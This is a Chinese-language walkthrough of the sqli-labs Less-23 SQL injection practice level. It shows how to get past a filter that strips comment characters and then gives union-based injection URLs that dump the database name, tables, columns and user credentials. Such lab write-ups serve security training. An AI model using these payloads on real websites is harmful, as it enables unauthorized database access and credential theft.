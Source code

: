 ```yaml
---
title: Less - 23
date: 2023-03-15T19:16:14Z
lastmod: 2023-03-15T19:47:53Z
---
```


# Less - 23

---

# 通关教程

---

## 1、判断闭合

---

随便查询一个数字，结果如下

​![image](assets/image-20230315192554-jzzl2mi.png)​

尝试id=1'，结果如下

​![image](assets/image-20230315192650-jcbwfkw.png)​

在单引号后面加上注释--+，结果如下

​![image](assets/image-20230315192730-ql3pwnf.png)​

尝试将--+换成#

​![image](assets/image-20230315192901-4k18ql4.png)​

观察该关卡的代码，发现存在转义

​![image](assets/image-20230315193333-h9v4kzu.png)​

发现这里把#和–都给转义成空格了，可以用;%00或者or '1'='1进行闭合，

​​

​![image](assets/image-20230315194211-ekc5kn6.png)​

---

## 2、查看当前数据库

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,database();%00
```

​![image](assets/image-20230315194401-dy8bxha.png)​

---

## 3、查看security库下的所有表

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security');%00
```

​![image](assets/image-20230315194453-xpm7dmg.png)​

---

## 4、查看users表下的所有字段

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users');%00
```

​![image](assets/image-20230315194543-2qeg421.png)​

---

## 5、查看username,password字段下的所有值

---

```bash
http://192.168.225.132/sqli-labs/Less-23/?id=-1' union select 1,2,(select group_concat(username,password) from security.users);%00
```

​![image](assets/image-20230315194741-qr6jzfu.png)​
